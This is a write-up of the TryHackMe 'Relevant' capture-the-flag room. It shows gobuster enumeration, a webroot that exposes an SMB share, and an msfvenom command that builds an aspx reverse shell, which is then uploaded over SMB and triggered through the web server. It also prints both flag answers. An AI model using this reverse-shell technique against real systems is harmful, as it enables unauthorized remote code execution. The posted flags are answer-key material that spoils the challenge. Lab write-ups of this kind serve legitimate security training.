# Relevant — TryHackMe

<p align="left">
  
</p>

## **Pre-Engagement Briefing**

You have been assigned to a client that wants a penetration test conducted on an environment due to be released to production in seven days. 

**Scope of Work**

The client requests that an engineer conducts an assessment of the provided virtual environment. The client has asked that minimal information be provided about the assessment, wanting the engagement conducted from the eyes of a malicious actor (black box penetration test).  The client has asked that you secure two flags (no location provided) as proof of exploitation:

- User.txt
- Root.txt  

Additionally, the client has provided the following scope allowances:

- Any tools or techniques are permitted in this engagement, however we ask that you attempt manual exploitation first  
- Locate and note all vulnerabilities found
- Submit the flags discovered to the dashboard
- Only the IP address assigned to your machine is in scope
- Find and report ALL vulnerabilities (yes, there is more than one path to root)

(Roleplay off)

I encourage you to approach this challenge as an actual penetration test. Consider writing a report, to include an executive summary, vulnerability and exploitation assessment, and remediation suggestions, as this will benefit you in preparation for the eLearnSecurity Certified Professional Penetration Tester or career as a penetration tester in the field.

Note - Nothing in this room requires Metasploit

Machine may take up to 5 minutes for all services to start.  

****Writeups will not be accepted for this room.****

###### Answer the questions below

User Flag  
THM{fdk4ka34vk346ksxfr21tg789ktf45}

Root Flag
THM{1fk5kf469devly1gl320zafgl345pv}













I check for **robots.txt** and also run a full **gobuster** scan but can’t find anything else useful on the port 80 website.

Looking at the website on port 49663 also just shows the default IIS page.

Running **gobuster** on the port 49663 website shows the following though:

`gobuster dir -u http://10.10.36.80:49663 -t 50 -r -w dir-med.txt`

```
/nt4wrksv             (Status: 200) [Size: 0]
```


Interesting. That’s the same name as the SMB share we came across earlier.

Let’s see if we can access the SMB share via the website. I try to point my web browser at the directory and it comes up blank, but if I try and point it at the passwords.txt file we saw in the SMB share earlier it displays!



So we have an SMB share that’s open and accessable via the web. I don’t know about you but that seems like a great security practice!

Let’s try and upload a reverse shell from the command line that we can then trigger through the web browser.

Since this is a Windows machine I use **msfvenom** to create a reverse **.aspx** shell:

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=<MY IP> LPORT=4444 -f aspx -o shell.aspx`

And then connect back over to the SMB share and upload it:

`put shell.aspx` and `dir`:














---

**Live version:** [read this write-up on my blog](https://debasjan.github.io/writeups/relevant/)
